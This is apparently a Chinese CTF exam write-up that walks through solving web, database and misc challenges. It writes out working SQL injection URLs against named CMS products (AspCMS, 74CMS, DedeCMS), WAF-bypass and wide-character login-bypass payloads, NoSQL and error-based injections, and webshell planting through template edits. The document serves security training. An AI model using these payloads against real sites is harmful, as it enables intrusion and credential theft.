# 安全检测专业论坛考试WriteUp
---

## 0x00前言

内网某局今年又开始搞CTF赛了，看到通知的时候本来想着手里还有一些事，不打算参加。
但是题目在那里总是手痒痒。一会去看看题目，一会去捣鼓捣鼓。最后受不了了，决定开始答题。
第一次参加这些比赛也是某局搞的，13年的事情了，那时候什么都不会，就会拿着工具找来找去。
后来2016年12月底到厅里面参加CTF比赛之前，恶补了许多知识。
但有很多知识点现在都想不起来了，还看了去年准备比赛时候做的笔记，觉得自己把过程写下来
不仅能加深自己的记忆，还能让巩固学到的东西，把许多似懂非懂的道理完全弄明白，一举两得。
所以决定边做题边把思路步骤写下来，就有了这个WriteUp。

## 0x01Web安全

1. Cookie欺骗

  打开题目，是个叫做aspcms的系统登陆界面。
  

  因为是个老的cms，毕竟漏洞很多了，上网搜索一下发现两处漏洞。
  一处是和题目切合的Cookie欺骗，
  另外一处是个SQL注入。懒得对着屏幕一个个敲Cookie信息(内外网物理隔离)，直接走注入。

  注入地址是`http://ip/admin/_content/_About/AspCms_AboutEdit.asp?id=1`

  1.1 确定字段数

  `order by 35`的时候正常,`order by 36`的时候报错。字段数为35。

  

  

  1.2 确定显示位

  因为这个数据库是access，确定显示位的时候需要在语句后面添加From。
  从网上搜索得知aspcms的默认用户表为aspcms_user。
  `http://ip/admin/_content/_About/AspCms_AboutEdit.asp?
  id=88%20Union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,
  20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35%20From%20aspcms_user`

  

  得到显示位6,10,11,12,24

  1.3 确定登陆账号密码

  将任意显示位替换成aspcms_user表中默认的字段名称loginname、password
  得到账号aaa、密码4f589f4867dbd57e，解密后为aaa。

  到后台登陆的时候提示不是管理员，于是在payload后面加入`where userid=1`。
  得到账号admin,密码121b28fa741f0976，解密为4rfv3edc2wsx1qaz。
  担心还有其他账号，于是用burpsuite遍历了一下，userid=1的是admin,userid=10的是aaa

  用admin登陆后进入模板页面，发现有了1.asp;.html文件，菜刀连接后得到key。

  

2. sha1(),MD5()加密漏洞

  打开页面只有提示：
  >SEO技术会帮你找到答案！
  >
  >Error Login

  既然提示了SEO，那么看一下robots.txt文件
  >User-agent: *
  >
  >Disallow: /fargagr.txt

  又打开fargagr.txt。出现了一个算法

  ```
  <?php

    $key='{*******************}';
      if (isset($_GET['login']) and isset($_GET['logout'])) {
        if ($_GET['login'] == $_GET['logout'])
            echo '<p>Error!</p>';
        else if (sha1($_GET['login']) === sha1($_GET['logout']))
          die('Flag: '.$flag);
        else
          echo '<p>Eroor login.</p>';
          }else{
        echo '<p>Error Login</p>';
        }
  ?>
  ```
  算法的大致意思是如果想得到flag，那么需要在url中传递login和logout参数.
  传递的参数需要满足两个条件，一个是login不能等于logout
  但是login和logout的sha1值要相等。

  上网查看了SHA1介绍:
  >SHA1有如下特性:两个不同的消息不会产生同样的消息摘要
  (会有1*10^48分之一的几率出现相同的消息摘要)

  所以这个是不可能实现的。
  既然题目提示了SHA1漏洞，那么上网找一下，发现SHA1漏洞是将login、logout构造为数组。
  `?login[]=a&?logout[]=b`。
  首先判断的时候login和logout的值是不同的，但是由于SHA1无法处理数组，会返回false，
  两个参数的SHA1值就相等了。

  拿到Key

3. 正则表达式也疯狂

  打开页面是一个正则表达式的算法

    ```
    <?php
      highlight_file('2.php');
        $key='KEY{********************************}';
          $IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i", trim($_GET["id"]), $match);
            if( $IM ){
              die('key is: '.$key);
              }
              ?>
    ```

  这个只要求会正则表达式就可以了，大概的都忘记了，我尝试了一下:

  3.1 `key.*`就是匹配前面的key,构造`id=keykey`

  3.2 `key.{4,7}`这个是匹配前面的key，但是字符串需要4-7个，所以这地方给两个key：`id=keykeykeykeykeykey:`

  3.3 `\/.\/`:给/a/(无所谓a,b,c,d都行)`id=keykeykeykeykeykey:/a/`

  3.4 `(.*key)`:给akey,aaaaaaakey,bbbbbkey都行`id=keykeykeykeykeykey:/a/bbbbkey`

  3.5 `[a-z]`:此处后面没有+号，所以只能给一个字符a`id=keykeykeykeykeykey:/a/bbbbkeya`

  3.6 `[[:punct:]]`:匹配至少一个标点符号集`id=keykeykeykeykeykey:/a/bbbbkeya***`

  3.7 `/i`:忽略大小写

  最后构造
  `http://ip/?id=keykeykeykeykeykey:/a/bbbbkeya***`
  得到key值.

4. 了解一下PHP伪协议吧

  打开题目后出现代码：

  ```
  <?php
    extract($_GET);
    if (!empty($login))
    {
      $fc = trim(file_get_contents($cert));
      if ($login === $fc)
      {echo "<p>This is flag:" ." $flag</p>";}
      else
      {echo "<p>sorry!</p>";}
      }
  ?>
  ```

  简单看了一下逻辑：从浏览器中获取`login`的值,
  如果`login`的值与`file_get_contents($cert)`相同则打印flag。
  `login`的值我们当然可以在浏览器中填写，
  但是`$cert`的值我们不知道(或者没有)。
  由于题目给的提示是PHP伪协议,因此想到的是利用伪协议传递`$cert`变量字符
  所以构造了一下，拿到key过关。

  `http://ip/?login=aaa&cert=data:text/plain,aaa`

## 0x02应用安全

1. Tomcat默认后台

  打开页面出现了Tomcat默认页面，选择Manage App登陆。
  要求输出账号密码，默认账号是admin,密码为空，进不去。
  又随手试了几个，123456成功进入后台。

  在网上下载了几个jsp大马，deploy后进入，最后在root文件夹下面找到thekey文件。

2. SQLinjection and Getshell

  题目给的是骑士CMSv3.2版本，题目给了提示是SQLinjection，上网找了资料。
  发现是个宽字符注入，注入点在
  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1`

  2.1. 确定注入点

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27`

    返回错误:

    `Error：Query error:select * from qs_category where c_alias='QS_officebuilding' AND c_index='運\\''`

  2.2. 确定字段数量

    `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=%df%27%20order%20by%209%23`

    `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=%df%27%20order%20by%2010%23`

    `order by 10`的时候出现错误，确定字段数量为9。

  2.3. 确定显示位

    构造`http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20select%201,2,3,4,5,6,7,8,9%20%23`

    显示:

    `48`

    因此确定两个显示位。

  2.4. 确定数据库及用户
  构造`http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,database(),5,6,7,user(),9%20%23`

  确定用户`74cms`、数据库`74cms@localhost`

  2.5. 查看表

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,
concat(table_name),5,6,7,null,9%20FROM information_schema.tables
%23`

  

  发现关键表`qs_admin`

  2.6. 查看`qs_admin`表字段

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,
concat(column_name),5,6,7,null,9%20FROM information_schema.columns where table_name=0x71735f61646d696e
%23`

  *`table_name=0x71735f61646d696e`，该16进制字符串是由qs_admin转换而来*

  

  2.7. 查看登陆用户和密码

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,
admin_name,5,6,7,pwd,9%20FROM qs_admin
%23`

  得到用户名`admin`
  密码`a548bfad6b1eb4afc38788d00dfecca8`

  2.8. 宽字符万能密码登陆

  到此为止，所有的注入都已经完成，但是并没有什么*用。
  因为这个密文根本解不开，无奈转向后台，结果用宽字符万能密码直接登陆了。
  心中一万头草泥马在奔腾。

  构造万能密码的时候发现后台账号输入框有长度限制，构造

  `admin_name=admin%df%27%20or%201=1%20%23&admin_pwd=admin&Submit=%B5%C7%C2%BC&act=do_login`

  利用burpsuite完成了post,成功登陆。

  2.9. 写入一句话木马

  找到修改模板页，首先测试一下，在`index.html`页面中显眼的位置随便改动了下内容，
  发现可以作用于`http://ip/index.php`页面.
  于是写入PHP一句话。但刚用菜刀连接上，key都没打开就被T掉了.
  又尝试了各种方法，各种变形一句话都加上了，还是不行。又懒得去下过狗的菜刀。
  于是灵机一动。加入了如下代码:
  `<?php system("ls")?>`
  最后查找了一下，得到key。

3. Top 100 弱口令

  这个题目有三种解法，第一种是利用弱口令字典爆破。
  第二种是在后台利用宽字符注入进入，这里有个弄不清楚的地方：
  我在浏览器登陆框使用`%df%27%20or%201=1`登陆会弹出报错信息，但是在burpsuite中就不会弹窗。
  第三种方法是发现search.php页面有宽字符注入漏洞，注入方式和上个题目差不多。最后得到密码`dcCgE59W1zjK2`。

  

  下载dcrcms源码看了一下加密算法是
  ```
  <?php
    $password = crypt(md5($_POST['password']),'dcr')
  ?>
  ```

  于是利用弱口令字典按照加密算法进行加密，最后得到明文密码。最后登陆后台。改模板，一句话，拿到key。

4. 一个你可以搞得定的CMS

  dedecms。。这个题目出得，也是醉了，怎么说呢。直接打开data/mysqli_error_trace.inc
  发现以前的注入记录，在浏览器中输入后得到密码。
  需要注意的是得到的密码并不是一个标准的Md5值，需要把前面3位和后面1位去掉，解密后拿到密码，
  进入后台。发现index.html模板页面已经被写入了一句话，连接后拿到key.

  注入点在`http://ip/plus/recommend.php`

  看了网上资料后一步步构造了
  ```
  http://ip/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\%27or%20mid=@`\%27`%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`limit+0,1),5,6,7,8,9%23@`\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
  ```

  其中
  ```
  mid开头和结尾的@`\%27`

  select和union关键字要有/*!50000*/包含
  ```
  是为了绕过dedecms中的防注入机制，否则会被拦截.

  

5. 入门从这里开始

  打开是一个"野草CMS"，随手输入admin.php进入后台页面，又随手输入admin、admin。直接进入后台。

  编辑模板页面发现有许多页面已经写入了一句话。但是菜刀连不上，于是到index.html页面，
  重新写入一句话，菜刀连接后拿到Key。

## 0x03数据库安全

1. sql注入

  是个SQLSERVER注入题

  1.1 确定字段数
  `http://ip/show.asp?id=2%20%20order%20by%204`

  `order by 5`的时候报错，`order by 4`的时候显示正确,字段数为4。

  1.2 确定显示位

  这出现一些问题，一开始使用的语句是:

  `http://ip/show.asp?id=2%20and%201=2%20union%20select%201,2,3,4`

  结果没有按照预期想得一样出现显示位，而是提示

  ```
  Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
  操作数类型冲突: ntext 与 int 不兼容
  /show.asp，行 17
  ```

  说明格式对应不上，修改成

  ` http://ip/show.asp?id=2%20and%201=2%20union%20all%20select%20null,null,null,null`

  在`union`后面添加`all`，用null替代数字。再分别测试，得知显示位为2和3,2是数字型，3是字符串型

  

  1.3 确定库名及表名

  使用`db_name()`得到库名为`tourdata`

  接着查看用户表有哪些

  `http://ip/show.asp?id=2%20and%201=2%20union%20all%20select%20null,(select top 1 name from sysobjects where Xtype='U' and id not in (select top 0 id from sysobjects where Xtype='U')),null,null`

  修改top 0 的值，得到两个表`dbproperties`、`news`

  1.4 确定表中的字段名

  `select top 1 name from syscolumns where id=(select id from sysobjects where Xtype='U' and name='news')and name not in (select top 0 name from syscolumns where id=(select id from sysobjects where Xtype='U' and name='news'))`

  这部分比较麻烦，最后得到字段名称`bt`、`id`、`nr`、`thekey`

  1.5 得到thekey

  `select thekey from news`

2. Mongodb注入

  因为以前没有了解过No-SQL的数据库，看到题目的时候也是一脸黑线，学习了一些MongoDB的知识。

  MongoDB的结构和json有点像，要完成注入就要了解他们的格式。例如本题，猜测执行的语句是`db.table.find({username:'username',password:'password'});`

  所以思路是构造`username='admin' and password!=(或者大于、小于)'1'`之类的语句,
  而MongoDB中`$ne`代表了不等于，所以构造`username=admin&password[$ne]=1`.
  (换成$gt大于,$lt小于之类的都可以)

  最终形成的执行语句是
  ```
  db.table.find(
      {
      username:'admin',
      password:{'$ne':'1'}
    }
  )
  ```

  换成平时使用的SQL语句就是:
  `select * from table where username='admin' and password!=1`

  然后得到Key。

3. X-Forwarded注入

  这个题目开始是个简单的登陆框，输入任意账号密码登陆后显示登录失败，然后给出当前登录IP。

  

  

  在POST中加入`X-Forwarded-For: 127.0.0.1'`后出现SQL报错语句，确定注入点。

  *因为考试时间的问题，没有能重现题目，我按照记忆说一下。*

  这个题目是要求通过报错注入来完成。报错注入一般可以套用公式`and (select 1 from (select count(*),concat( floor(rand(0)*2),(select (select (爆错语句)) from information_schema.tables limit 0,1))x from information_schema.tables group by x )a)--'`，其中的原理是count()、rand()、group by 三个语句之间的矛盾造成的报错，《冰眼安全》的公众号有过这个详细解释。但我不明白的是我在我本地使用`select count(*),concat(floor(rand(0)*2),database())x from information_schema.tables group by x`可以得到database()的值，但是在有些环境中却没有爆出数据库，必须要加入很多个select才能得到。一直没有找到相关解释，应该是我数据库知识太缺乏的缘故吧。

  

  题目中虽然可以使用报错语句来拿到登陆账号密码,分别是admin/admin、1/1、Starbucks/Starbucks，但是登陆以后并没有相关提示，而是又直接回到了登陆界面。估计是出题人不愿意看到大家使用工具来完成题目。

  随后又经过了多个尝试，确定了这个题目的解题是利用Mysql中的`load_file`函数来查看KEY文件值。于是我开始疯狂的找默认路径下的文件，还是没有拿到网站的物理路径。两天后直接认怂，问了其他人才知道网站的路径是存在于`C:\wwwroot\`，把`C:\wwwroot\`转换成十六进制，`load_file(hex(C:\wwwroot\key.php))`得到Key.

  随后我把index.php文件也取出来看了一下，发现里面有个判断提交的字符串是否为字母加数字组合的函数`ctype_alnum()`。也就是说，如果用户提交的用户密码为字母+数字则可以查询数据库，与数据库中一致就得到Key。如果只是提交单一的字母或者数字则不会与数据库进行比对，会弹回到登陆界面，这就是为什么我们把用户库爆出来以后还拿不到key的原因。换个思路来说，如果我在报错注入的语句中新插入一个用户，账号密码符合`ctype_alnum()`也可以获得key值的。

4. 通用型防注入程序设计缺陷利用

  打开页面就展示了是个sql防注入系统，随手在id=1后面加了`'`，跳转到一个防注入页面。

  

  尝试了几种字符变形都不行。上网搜索了一下，
  发现这个防注入系统是把一些注入的记录放到了数据库中，然后在sqlin.asp页面中显示。
  进入到sqlin.asp页面发现其中有许多被过滤了的记录。
  既然有记录存储，也有页面展示，那么思路就应该是让系统自动将一句话插入到数据库中，
  再在sqlin.asp页面中展示出来。我用Python搞了半天不知道如何转换，没办法用了网上的
  一句话插入，完成注入。最后得到key

  

## 0x04系统安全

1. 文件反编译

  反编译类的题目不会。

2. 无线破解

  下载一个`miyao.ivs`的文件，提示无线密码就是Key。
  上网下载了Aircrack-ng，打开文件自动就把密钥算了出来。`securitytest1`,
  大概的原理是在不断的握手抓包的过程中将数据包保存下来，然后枚举出密码。

## 0x05其他安全

1. 解密

  是个Misc类的题目,给了个算法和图片。

  

  算法看下来是个异或运算，图片就用Misc类的解法，后缀名改成rar，但是解压软件打不开
  于是把图片拖到Hex_Fiend里面，没有发现有用的字符串。上网搜索一下jpg格式,应该是以`FFD8`开始，`FFD9`结束，图片`FFD8`开头没毛病，但是结尾却多出来一些内容。

  

  结合题目之前给出的算法，应该是拿到这串16进制后，与1-255进行异或运算。尝试了一下:

  ```
  #coding=utf8
  import re

  st = '2F131E5B101E025B12085B1818491F4E19494F43434C194C4E4F1D481A1E491E494A1E481A1E4E1F4B421F'
  sentence = ''
  regexp = '(flag)|(key)'

  for x in range(1,256):
    for s in range(0,len(st),2):
      sentence += chr(int(st[s:s+2],16)^x)
    if re.search(regexp,sentence,re.I):
      print sentence
    sentence = ''
  ```

  最后得到key

##0x06 后记

  从以上题目中可以看到这次考察的难度都不大，只是包含的知识内容比较宽泛，有SQL注入、CMS漏洞利用、COOKIE欺骗、MD5()SHA1()加密漏洞、Misc算法、无线解密等等。其中：

  1. **SQL注入** 这次的题目很多都是通过SQL注入来做，不仅仅是有常用的Mysql,还有Access、SQLSERVER等，总体的感觉是偏入门，不难。只有X-Forwarded-For那个题目不错，用到了难度较大的报错注入(至今都没明白这么多SELECT是干嘛的)。不过只要知道注入点，使用工具的话很快就能完成，但毕竟是练习题目，所以还是建议自己手动来处理，一方面自己手工注入可以逼迫自己去学习知识，另一方面手工注入要快一些。

  2. **CMS漏洞利用** 因为比赛时间的缘故，CMS漏洞利用的题目一般都是找到CMS名称、版本号，然后上网搜索相关漏洞直接利用就行了。有时候出题人会在原有漏洞的基础上弄一些小陷阱，注意一下就可以。这次题目中的几个CMS都比较老，APSCMS、74CMS、DEDECMS等很容易就找到了渗透点。但是这只是知其然，要提高自身的水平，还得详细看一下这些漏洞挖掘的过程才行。

  3. **MISC** Misc类的题目因为做得多，所以出现题目了大概用什么姿势心理还是有点数的。

  4. **反编译** 反编译的题目一直是我的短板所在，如果说WEB类的题目我还能有点思路去尝试，那么反编译的题目就是两眼一抹黑了。

  这次比赛结束了，对我自己来说，算是一个回忆巩固自己知识点的过程，在解题的过程中也发现了自己对于注入绕过、盲注、报错注入这些地方的短板，希望以后能有机会再学习。今天过后，又要去面对新的挑战了！
